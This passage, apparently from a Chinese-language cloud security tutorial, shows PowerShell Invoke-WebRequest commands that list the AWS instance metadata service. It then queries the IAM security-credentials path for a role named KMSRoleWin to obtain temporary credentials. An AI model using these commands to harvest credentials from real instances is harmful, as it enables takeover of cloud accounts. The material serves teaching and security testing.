 加上  `-UseBasicParsing` 参数即可，这里用 [Invoke-WebRequest](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.4)

```abap
C:\> powershell # 输入后记得按一下回车
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\>

PS C:\> Invoke-WebRequest  http://169.254.169.254/latest/meta-data/ -TimeoutSec 2 -UseBasicParsing

StatusCode        : 200
StatusDescription : OK
Content           : ami-id
                    ami-launch-index
                    ami-manifest-path
                    block-device-mapping/
                    events/
                    hibernation/
                    hostname
                    iam/
                    identity-credentials/
                    instance-action
                    instance-id
                    instance-life-cycle
                    instance-type
                    local-hostname
                    lo...
RawContent        : HTTP/1.0 200 OK
                    Connection: keep-alive
                    Accept-Ranges: bytes
                    Content-Length: 338
                    Content-Type: text/plain
                    Date: Mon, 27 May 2024 04:38:33 GMT
                    Last-Modified: Mon, 20 May 2024 13:55:59 GMT
                    Server:...
Forms             :
Headers           : {[Connection, keep-alive], [Accept-Ranges, bytes], [Content-Length, 338], [Content-Type,
                    text/plain]...}
Images            : {}
InputFields       : {}
Links             : {}
ParsedHtml        :
RawContentLength  : 338

```

继续获取 sts

```powershell
PS C:\> Invoke-WebRequest http://169.254.169.254/latest/meta-data/iam/security-credentials/ -TimeoutSec 2 -UseBasicParsing

PS C:\> Invoke-WebRequest http://169.254.169.254/latest/meta-data/iam/security-credentials/KMSRoleWin -TimeoutSec 2 -UseBasicParsing
```
